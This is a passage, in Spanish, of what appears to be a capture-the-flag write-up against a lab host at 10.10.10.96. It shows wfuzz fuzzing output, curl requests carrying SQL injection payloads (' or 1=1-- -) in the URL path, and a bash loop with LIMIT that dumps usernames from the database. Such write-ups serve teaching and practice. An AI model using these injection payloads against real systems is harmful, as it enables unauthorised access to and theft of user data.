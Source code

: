 ```null
000001061:   500        4 L      40 W       291 Ch      "167"                                                                                                                                           
000002010:   500        4 L      40 W       291 Ch      "'"                                                                                                                                             
000004530:   500        4 L      40 W       291 Ch      "447"                                                                                                                                           
000005302:   500        4 L      40 W       291 Ch      "1616"                                                                                                                                          
000005308:   500        4 L      40 W       291 Ch      "bib"                                                                                                                                           
000005321:   500        4 L      40 W       291 Ch      "nav_news"                                                                                                                                      
000005338:   500        4 L      40 W       291 Ch      "m6"                                                                                                                                            
000005343:   500        4 L      40 W       291 Ch      "976"                                                                                                                                           
000005359:   500        4 L      40 W       291 Ch      "minutes"                                                                                                                                       
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...
```

La ruta ```/admin``` existe. Además, tras introducir una comilla simple el código de estado pasó a ser 500, junto a las otras peticiones que se ejecutaran tras ese hilo

```null
 curl -s -X GET http://10.10.10.96/users/admin | jq
{
  "username": "admin"
}
```

Es vulnerable a SQLi

```null
curl -s -X GET 'http://10.10.10.96/users/'"'"'%20or%201=1--%20-' | jq
{
  "username": "dorthi"
}
```

Para poder extraerlos todos, utilizo un bucle y ```limit```

```null
for i in $(seq 1 50); do curl -s -X GET "http://10.10.10.96/users/'%20or%201=1%20limit%20$i,1%20--%20-" | jq -r '.["username"]' | grep -v null; done
tin.man
wizard.oz
coward.lyon
toto
admin
```
